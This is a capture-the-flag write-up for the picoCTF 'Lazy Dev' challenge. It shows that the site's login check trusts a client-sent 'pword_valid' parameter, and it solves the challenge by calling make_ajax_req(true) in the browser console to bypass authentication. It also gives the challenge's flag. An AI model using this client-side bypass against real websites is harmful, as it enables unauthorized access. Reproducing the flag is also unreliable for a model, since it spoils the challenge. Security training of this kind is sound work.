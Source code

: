 ## Lazy Dev [50 Points]

I really need to login to this [website](http://shell2017.picoctf.com:46677/), but the developer hasn't implemented login yet. Can you help?

**Hints:**

- Where does the password check actually occur?
- Can you interact with the javascript directly?

**Solution:**

http://shell2017.picoctf.com:46677/static/client.js

The validate password function always returns false
```
//Validate the password. TBD!
function validate(pword){
  //TODO: Implement me
  return false;
}
```

We can execute the ajax request with pw_valid=true, bypassing the validate function
```
//Make an ajax request to the server
function make_ajax_req(input){
  var text_response;
  var http_req = new XMLHttpRequest();
  var params = "pword_valid=" + input.toString();
  http_req.open("POST", "login", true);
  http_req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  http_req.onreadystatechange = function() {//Call a function when the state changes.
  	if(http_req.readyState == 4 && http_req.status == 200) {
      document.getElementById("res").innerHTML = http_req.responseText;
    }
  }
  http_req.send(params);
}
```

Open Javascript console (Ctrl+Shift+J)
```
make_ajax_req(true)
```

**Flag:** client_side_is_the_dark_sidee5dbd5f8c6ae5e282766571e06569d50
